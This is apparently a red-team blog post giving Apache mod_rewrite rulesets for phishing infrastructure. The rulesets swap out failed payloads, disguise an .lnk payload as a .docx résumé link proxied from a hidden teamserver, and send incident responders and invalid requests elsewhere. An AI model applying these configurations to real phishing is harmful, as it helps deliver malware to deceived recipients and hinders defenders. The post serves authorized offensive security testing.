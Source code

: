```yaml
---
layout: post
title: Apache mod_rewrite Grab Bag
summary: Using Apache mod_rewrite to hot-swap payloads, obfuscate payload file extensions, block non-standard HTTP methods, and use an alternate method to redirect requests for invalid URIs.
tags: 
- mod_rewrite
- phishing
- red team infrastructure
image: /assets/apache/payload-file-extension-obfuscation.gif
commentIssueId: 18
---
```


Apache mod_rewrite provides conditional redirection and obfuscation to a red teamer's infrastructure. I've previously written about mod_rewrite in [a few posts]({{site.baseurl}}/topics/mod_rewrite). In this post, I will cover a few quick tricks you can use in conjunction with techniques from my earlier posts while phishing or red teaming.

Be sure you read the [first-time setup instructions]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection#first-time-apache-setup) for mod_rewrite to configure your server to work properly. 

# Payload Hot-Swapping
We've all been in a situation where, just after sending out a large phishing batch, we realize that some aspect of the payload doesn't work in the target environment. Previously, the batch would be burned. With mod_rewrite, we can create a ruleset to redirect requests for the original payload and redirect it to a new payload.

Let's say our original payload, `BonusesAndSalaries2017.hta`, didn't work and we want to replace it with `BonusesAndSalaries2017.lnk`. We could use the following htaccess ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/BonusesAndSalaries2017.hta$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/BonusesAndSalaries2017.lnk </span><span style="color: tomato"> [L,R=302]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">matches our original payload, BonusesAndSalaries2017.hta, </span><br>
<span style="color: gold">Change the request </span> <span style="color: orange">to serve /BonusesAndSalaries2017.lnk. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span></div>

Delete the original payload and put the above ruleset in an htaccess file in the web root of the server hosting the original payload. While this technique works as a reaction a phishing issue, it also works proactively. By using a generic link (such as `/BonusesAndSalaries2017`) in the email, you can quickly modify the third line of the htaccess file to serve up your next payload.

# Payload File Extension Obfuscation
Similar to payload hot-swapping, we can use mod_rewrite to help our phishing email look more believable to targets and email security appliances by hiding our payload's true file extension. Imagine we are going to use an lnk payload, but want end-users to think they're clicking on a link to a Word document. If our email used the `<a>` tags to obfuscate the link, a mouse-over or copy and paste thwarts the plan. Not to mention the fact that display text that doesn't match the hyperlink destination raises your score in many spam filters.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.docx?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/JackBrownResume.lnk</span><span style="color: tomato"> [L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.lnk?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP/<span style="color: dodgerblue">JackBrownResume.lnk</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.docx (the link we put in the phishing email body), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to /JackBrownResume.lnk (the actual payload). </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.lnk (the payload we want to serve), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve </span><span style="color: dodgerblue">/JackBrownResume.lnk</span><span style="color: orange"> from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

The mod_rewrite ruleset will redirect our docx link to the lnk and trigger a download in the end-user's browser. 

Here is a demo of this ruleset in action:

![Payload File Extension Obfuscation Demo](/assets/apache/payload-file-extension-obfuscation.gif)

# 404 Redirection

In my post [Invalid URI Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/), I covered a method of redirecting invalid URI requests to a chosen page. That method involves manually specifying allowed URIs, regardless of files present in the web directory on your server. 

We can accomplish a similar function by redirecting all requests for nonexistent resources (404s) to a different page:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
ErrorDocument 404 <span style="color: dodgerblue">http://REDIRECTION-URL.com/</span><br></div>
 
If you are only using your Apache server for redirection this is a quick method of filtering requests for invalid URIs. But, keep in mind that Apache will serve any valid files requested

# Block Non-Standard HTTP Methods
Just as pentesters will use non-standard HTTP methods to gather intelligence from a target server, incident responders can use these HTTP methods against our infrastructure. To reduce that risk, we can allow GET and POST requests and redirect all others with the following ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_METHOD}</span> <span style="color: mediumseagreen">!^(GET|POST)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com</span><span style="color: tomato"> [L,R=302]</span><br></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's HTTP Method </span> <span style="color: mediumseagreen">is not GET or POST, </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to http://REDIRECTION-URL.com. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br></div>

# Summary

Apache mod_rewrite provides a multitude of functionality that is useful for offensive security assessments. With the mod_rewrite techniques covered in this post, we can conditionally redirect web requests to obfuscate our backend infrastructure and point incident responders in the wrong direction. The techniques covered in this post can be combined with other [previously covered]({{site.baseurl}}/topics/mod_rewrite) techniques to even greater effect.

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)